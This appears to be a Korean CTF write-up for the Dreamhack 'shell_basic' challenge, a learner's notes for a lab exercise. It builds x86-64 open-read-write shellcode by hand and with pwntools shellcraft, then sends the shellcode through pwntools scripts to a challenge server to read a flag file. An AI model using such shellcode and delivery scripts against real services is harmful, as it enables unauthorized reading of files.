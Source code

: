 ## 📍shell_basic

```
입력한 셸코드를 실행하는 프로그램이 서비스로 등록되어 작동하고 있습니다.

`main` 함수가 아닌 다른 함수들은 execve, execveat 시스템 콜을 사용하지 못하도록 하며, 풀이와 관련이 없는 함수입니다.

flag 파일의 위치와 이름은 `/home/shell_basic/flag_name_is_loooooong`입니다.  
감 잡기 어려우신 분들은 아래 코드를 가지고 먼저 연습해보세요!
```

```
$ cat write.asm
section .text
global _start
_start:
    ;/* write(fd=1, buf='hello', n=48) */
    ;/* push 'hello\x00' */
    mov rax, 0x0a6f6c6c6568
    push rax
    mov rsi, rsp
    push 1
    pop rdi
    push 0x6
    pop rdx
    ;/* call write() */
    push 1
    pop rax
    syscall
$ nasm -f elf64 write.asm
$ objcopy --dump-section .text=write.bin write.o
$ xxd write.bin
00000000: 48b8 6865 6c6c 6f0a 0000 5048 89e6 6a01  H.hello...PH..j.
00000010: 5f6a 065a 6a01 580f 05                   _j.Zj.X..
$ cat write.bin | ./shell_basic
shellcode: hello
[1]    1592460 done                cat write.bin |
       1592461 segmentation fault  ./shell_basic
$
```


#### 해결

우선 execve 시스템콜을 막았다고 하니 orw 셸코드를 사용해보자.

위 파일 경로 `home/shell_basic/flag_name_is_loooooong`을 16진수 리틀 엔디안으로 변환하면 다음과 같다.
![](../../Attachments/0547A58F-151A-423A-89D6-7557434DB5FF.png)
```
0x676e6f6f6f6f6f6f6c5f73695f656d616e5f67616c662f63697361625f6c6c6568732f656d6f682f
```

위에서 만든 orw.c 파일에 그대로 파일 경로만 붙여넣기해봤다.
(리눅스에서 실행할 수 있도록 c언어로 된 스켈레톤 코드에 셸코드를 탑재하는 것)
```c
// File name: orw.c
// Compile: gcc -o orw orw.c -masm=intel

__asm__(
        ".global run_sh\n"
        "run_sh:\n"

        "push 0x67\n"
        "mov rax, 0x6e6f6f6f6f6f6f6c5f73695f656d616e5f67616c662f63697361625f6c6c6568732f656d6f682f\n"
        "push rax\n"
        "mov rdi, rsp   # rdi = /tmp/flag'\n"
        "xor rsi, rsi   # rsi = 0 ; RD_ONLY\n"
        "xor rdx, rdx   # rdx = 0\n"
        "mov rax, 2     # rax = 2 ; syscall_open\n"
        "syscall        # open('/home/shell_basic/flag_name_is_loooooong', RD_ONLY, NULL)\n"
        "\n"
        "mov rdi, rax   # rdi = fd\n"
        "mov rsi, rsp\n"
        "sub rsi, 0x30  # rsi = rsp-0x30 # buf\n"
        "mov rdx, 0x30  # rdx = 0x30     # len\n"
        "mov rax, 0x0   # rax = 0        # syscall_read\n"
        "syscall        # read(fd, buf, 0x30)\n"
        "\n"
        "mov rdi, 1    # rdi = 1 # fd = stdout\n"
        "mov rax, 0x1  # rax = 1 # syscall_write\n"
        "syscall       # write(fd, buf, 0x30)\n"
        "\n"
        "xor rdi, rdi   # rdi = 0\n"
        "mov rax, 0x3c  # rax = sys_exit\n"
        "syscall        # exit(0)");

void run_sh();

int main() { run_sh(); }
```

너무 길어서 그런지 에러가 났다.
![](../../Attachments/F112AC67-4468-4629-A03B-7E61CEB00CE7.png)

스택에는 8바이트 단위로만 값을 push할 수 있으므로, 위 문자열을 8바이트씩 쪼개준다.
```
0x676e6f6f6f6f6f6f
0x6c5f73695f656d61
0x6e5f67616c662f63
0x697361625f6c6c65
0x68732f656d6f682f
```

다시 push해서 스택에 차례대로 넣었다.
```c
"move rax, 0x676e6f6f6f6f6f6f\n"
"push rax\n"
"move rax, 0x6c5f73695f656d61\n"
"push rax\n"
"move rax, 0x6e5f67616c662f63\n"
"push rax\n"
"move rax, 0x697361625f6c6c65\n"
"push rax\n"
"move rax, 0x68732f656d6f682f\n"
"push rax\n"
```

#### 셸코드
```c
// File name: orw.c
// Compile: gcc -o orw orw.c -masm=intel

__asm__(
        ".global run_sh\n"
        "run_sh:\n"
        
		"push 0x0\n"
        "mov rax, 0x676e6f6f6f6f6f6f\n"
		"push rax\n"
		"mov rax, 0x6c5f73695f656d61\n"
		"push rax\n"
		"mov rax, 0x6e5f67616c662f63\n"
		"push rax\n"
		"mov rax, 0x697361625f6c6c65\n"
		"push rax\n"
		"mov rax, 0x68732f656d6f682f\n"
		"push rax\n"
        "mov rdi, rsp   # rdi = /home/shell_basic/flag_name_is_loooooong'\n"
        "xor rsi, rsi   # rsi = 0 ; RD_ONLY\n"
        "xor rdx, rdx   # rdx = 0\n"
        "mov rax, 2     # rax = 2 ; syscall_open\n"
        "syscall        # open('/home/shell_basic/flag_name_is_loooooong', RD_ONLY, NULL)\n"
        "\n"
        "mov rdi, rax   # rdi = fd\n"
        "mov rsi, rsp\n"
        "sub rsi, 0x30  # rsi = rsp-0x30 # buf\n"
        "mov rdx, 0x30  # rdx = 0x30     # len\n"
        "mov rax, 0x0   # rax = 0        # syscall_read\n"
        "syscall        # read(fd, buf, 0x30)\n"
        "\n"
        "mov rdi, 1    # rdi = 1 # fd = stdout\n"
        "mov rax, 0x1  # rax = 1 # syscall_write\n"
        "syscall       # write(fd, buf, 0x30)\n"
        "\n"
        "xor rdi, rdi   # rdi = 0\n"
        "mov rax, 0x3c  # rax = sys_exit\n"
        "syscall        # exit(0)");

void run_sh();

int main() { run_sh(); }
```

![](../../Attachments/281FB2EA-CFE7-4365-8B7C-7214D4CA793F.png)

`-d`는 디스어셈블 옵션이다.
여기서 orw에 필요한 셸코드만 추출한다.

![](../../Attachments/40832031-ABAA-4B56-B6B3-F69B5291DEBE.png)

```
\x6a\x00\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6e\x50\x48\xb8\x61\x6d\x65\x5f\x69\x73\x5f\x6c\x50\x48\xb8\x63\x2f\x66\x6c\x61\x67\x5f\x6e\x50\x48\xb8\x65\x6c\x6c\x5f\x62\x61\x73\x69\x50\x48\xb8\x2f\x68\x6f\x6d\x65\x2f\x73\x68\x50\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\x48\xc7\xc0\x02\x00\x00\x00\x0f\x05\x48\x89\xc7\x48\x89\xe6\x48\x83\xee\x30\x48\xc7\xc2\x30\x00\x00\x00\x48\xc7\xc0\x00\x00\x00\x00\x0f\x05\x48\xc7\xc7\x01\x00\x00\x00\x48\xc7\xc0\x01\x00\x00\x00\x0f\x05\x48\x31\xff\x48\xc7\xc0\x3c\x00\x00\x00\x0f\x05
```

원래 이걸 통째로 shellcode: 에 입력하려고 했는데 그게 아닌 것 같다...
![](../../Attachments/8D2E4A2E-B184-4418-BC57-66FEB19E781B.png)

pwntools를 사용해서 파이썬 스크립트를 작성해봤다.
```python
from pwn import *

context.arch = "amd64"
p = remote("host3.dreamhack.games", 14009)

shellcode = b"\x6a\x00\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6e\x67\x50\x48\xb8\x61\x6d\x65\x5f\x69\x73\x5f\x6c\x50\x48\xb8\x63\x2f\x66\x6c\x61\x67\x5f\x6e\x50\x48\xb8\x65\x6c\x6c\x5f\x62\x61\x73\x69\x50\x48\xb8\x2f\x68\x6f\x6d\x65\x2f\x73\x68\x50\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\x48\xc7\xc0\x02\x00\x00\x00\x0f\x05\x48\x89\xc7\x48\x89\xe6\x48\x83\xee\x30\x48\xc7\xc2\x30\x00\x00\x00\x48\xc7\xc0\x00\x00\x00\x00\x0f\x05\x48\xc7\xc7\x01\x00\x00\x00\x48\xc7\xc0\x01\x00\x00\x00\x0f\x05\x48\x31\xff\x48\xc7\xc0\x3c\x00\x00\x00\x0f\x05"
p.sendafter(b": ", shellcode)
p.interactive()
```

파일을 실행해주면 플래그가 반환된다.

![](../../Attachments/0877EAEA-773E-47BB-8DED-E6E0440552F4.png)


## 📍shell_basic 2

일단 orw 셸 코드를 작성해야 한다.

```c
//orw
int fd = open("/home/shell_basic/flag_name_is_loooooong", RD_ONLY, NULL)
read(fd, buf, 0x30);
write(1, buf, 0x30);
```

위 코드처럼 open-read-write를 하면 된다.
셸 코드를 작성해주는 pwntools의 `shellcraft()` 함수를 사용해 보자.

```python
from pwn import *

p = remote("host3.dreamhack.games", 10178)

context.arch = "amd64"
path = "/home/shell_basic/flag_name_is_loooooong"

shellcode = shellcraft.open(path)
# open 함수 결과는 rax 레지스터에 저장된다고 한다. fd = rax
shellcode += shellcraft.read('rax', 'rsp', 0x30)   # read(fd, buf, 0x30)
shellcode += shellcraft.write(1, 'rsp', 0x30)      # write(1, buf, 0x30)
shellcode = asm(shellcode)   # shellcode를 기계어로 변환하여 대입

payload = shellcode
p.sendlineafter("shellcode: ", payload)
print(p.recv(0x30))
```

![](../../Attachments/0A93E382-E201-49BE-86FA-C61D122A1C72.png)

성공 🚩